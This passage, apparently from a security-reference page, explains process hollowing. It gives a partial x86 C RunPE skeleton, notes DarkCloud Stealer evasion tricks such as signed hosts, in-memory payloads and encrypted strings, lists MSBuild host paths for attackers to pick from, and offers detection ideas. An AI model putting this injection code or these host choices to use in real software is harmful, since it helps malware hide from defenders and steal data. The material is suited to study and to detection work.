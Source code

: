 Minimal proof-of-concept (x86) skeleton:
```c
void RunPE(LPCSTR host, LPVOID payload, DWORD payloadSize){
  // 1. create suspended process
  STARTUPINFOA si = {sizeof(si)}; PROCESS_INFORMATION pi;
  CreateProcessA(host, NULL,NULL,NULL,FALSE,CREATE_SUSPENDED,NULL,NULL,&si,&pi);

  // 2. read remote PEB to get ImageBaseAddress
  CONTEXT ctx; ctx.ContextFlags = CONTEXT_FULL;
  GetThreadContext(pi.hThread,&ctx);
  PVOID baseAddr;
  ReadProcessMemory(pi.hProcess,(PVOID)(ctx.Ebx+8),&baseAddr,4,NULL);

  // 3. unmap original image & allocate new region at same base
  NtUnmapViewOfSection(pi.hProcess,baseAddr);
  PVOID newBase = VirtualAllocEx(pi.hProcess,baseAddr,pHdr->OptionalHeader.SizeOfImage,
                                 MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
  // 4-5. copy headers & sections …
  // 6. write new image base into PEB and set Eip
  WriteProcessMemory(pi.hProcess,(PVOID)(ctx.Ebx+8),&baseAddr,4,NULL);
  ctx.Eax = (DWORD)(newBase) + pHdr->OptionalHeader.AddressOfEntryPoint;
  SetThreadContext(pi.hThread,&ctx);
  // 7. run!
  ResumeThread(pi.hThread);
}
```

Practical notes observed in the **DarkCloud Stealer** campaign:

* The loader picked `RegAsm.exe` (part of the .NET Framework) as host – a signed binary unlikely to draw attention.
* The decrypted VB6 stealer (`holographies.exe`) is *not* dropped on disk; it only ever exists inside the hollowed process making static detection harder.
* Sensitive strings (regexes, paths, Telegram credentials) are **RC4-encrypted** per-string and only decrypted at runtime, further complicating memory scanning.

Detection ideas:
* Alert on `CREATE_SUSPENDED` processes that never create GUI/console windows before a memory region is allocated as **RWX** (rare for benign code).
* Look for a call sequence `NtUnmapViewOfSection ➜ VirtualAllocEx ➜ WriteProcessMemory` across different processes.
* Unusual use of trusted developer utilities as hollowing hosts, especially `MSBuild.exe`, `RegAsm.exe`, `rundll32.exe`, parented by short-lived loaders.
* Hunt for `msbuild.exe` spawned from user-writable paths or without corresponding `.sln/.proj` context then making outbound connections (ATT&CK T1127.001 + T1055.012).

Common host processes and path resolution
- `MSBuild.exe` is frequently chosen as a hollowing host to blend with developer tooling. Loaders often search architecture-appropriate locations:
  - `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe`
  - `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe`
  - `C:\Windows\System32\MSBuild.exe`
  - `C:\Windows\SysWOW64\MSBuild.exe`
- Select the host matching the current payload/OS architecture before calling `CreateProcess(..., CREATE_SUSPENDED, ...)`.
